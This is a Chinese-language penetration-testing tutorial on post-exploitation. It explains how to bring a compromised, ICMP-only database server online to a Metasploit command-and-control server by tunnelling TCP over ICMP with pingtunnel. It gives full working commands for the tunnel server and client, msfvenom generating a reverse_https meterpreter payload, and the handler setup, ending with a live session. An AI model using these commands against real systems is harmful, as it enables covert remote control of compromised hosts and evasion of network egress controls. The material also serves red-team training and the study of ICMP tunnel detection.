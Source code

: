 通过某种信道获取了内网主机的shell，但是当前信道不适合做远控的通信信道（比如站库分离的网站，我们通过sql注入获取了数据库服务器的shell，但是数据库服务器只有ICMP协议可以出网）

TCP和UDP等传输层协议不能出网
DNS、HTTP等应用层协议也不能出网
只有ICMP协议可以出网

#### （2）方案

ICMP协议可以出网，可以利用ICMP协议，构建反向的TCP over ICMP隧道或者SOCKS over ICMP隧道上线远控平台。搭建隧道的工具使用pingtunnel，它能通过ICMP隧道转发TCP、UDP、socks5连接

#### （3）过程

##### ICMP隧道转发TCP上线metasploit

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

* ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1
该命令的意思是icmp客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
```

生成反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线

```
msfvenom -p windows/meterpreter/reverse_https lhost=127.0.0.1 lport=9999 -f exe -o meterpreter.exe

# 这里的lhost和lport为icmp客户端监听ip和端口
```

启动msf监听，等待meterpreter执行上线

```
# 这里的lhost和lport为icmp客户端转发到的ip和端口

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf5 exploit(multi/handler) > set lport 7777
lport => 7777
msf5 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:7777

meterpreter > getuid
Server username: DESKTOP-test0\admin
```
